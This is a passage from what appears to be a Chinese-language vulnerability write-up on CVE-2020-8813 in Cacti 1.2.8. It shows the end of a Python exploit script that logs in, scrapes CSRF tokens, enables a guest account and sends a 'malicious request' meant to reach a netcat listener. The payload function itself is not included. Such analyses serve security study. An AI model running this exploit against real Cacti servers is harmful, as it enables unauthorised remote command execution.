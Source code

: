             page = request.get(url+"/user_admin.php?action=user_edit&id=3&tab=realms")
            html_content = page.text
            soup = BeautifulSoup(html_content, "html5lib")
            token = soup.findAll('input')[1].get("value")
            if token:
                print("[+]Making some noise ..")
                guest_realtime = enable_guest(token)
                if guest_realtime:
                    print("[+]Sending malicous request, check your nc ;)")
                    send_exploit()
                else:
                    print("[-]Error while activating the malicous account")
     
            else:
                print("[-] Unable to retrieve CSRF token from admin page!")
                exit()
     
        else:
            print("[-]Cannot Login!")
    else:
        print("[-] Unable to retrieve CSRF token!")
        exit()

运行漏洞利用代码后，我们将获得以下内容：

![](./resource/(CVE-2020-8813)Cactiv1.2.8远程命令执行漏洞/media/rId38.png)
